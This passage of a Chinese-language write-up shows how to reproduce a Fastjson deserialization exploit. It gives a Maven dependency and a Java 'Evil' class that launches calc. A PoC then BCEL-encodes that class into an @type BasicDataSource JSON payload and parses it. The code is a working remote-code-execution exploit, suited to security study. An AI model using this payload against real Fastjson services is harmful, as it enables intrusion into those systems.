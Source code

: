 在Tomcat 8.0之后包路径有所变化，更改为了 org.apache.tomcat.dbcp.dbcp2.BasicDataSource，所以构造PoC的时候需要注意一下。 MVN依赖写法如下：

```xml
<!-- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp -->
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>9.0.8</version>
</dependency>
```

或者直接去[https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp](https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp)下载对应jar包导入项目复现

### POC：

**evil**

```java
package com;

import java.io.IOException;

public class Evil {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

**poc**

```java
package com;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class evilPoc {
    public static void main(String [] args) throws Exception{
        JavaClass cls = Repository.lookupClass(Evil.class);
        String code = Utility.encode(cls.getBytes(),true);
        System.out.println(code);
       // new ClassLoader().loadClass("$$BCEL$$" + code).newInstance();
        String poc = "{\n" +
                "    {\n" +
                "        \"x\":{\n" +
                "                \"@type\": \"org.apache.tomcat.dbcp.dbcp.BasicDataSource\",\n" +
                "                \"driverClassLoader\": {\n" +
                "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "                },\n" +
                "                \"driverClassName\": \"$$BCEL$$"+code+"\"\n" +
                "        }\n" +
                "    }: \"x\"\n" +
                "}";
        System.out.println(poc);
        JSON.parseObject(poc);

    }
```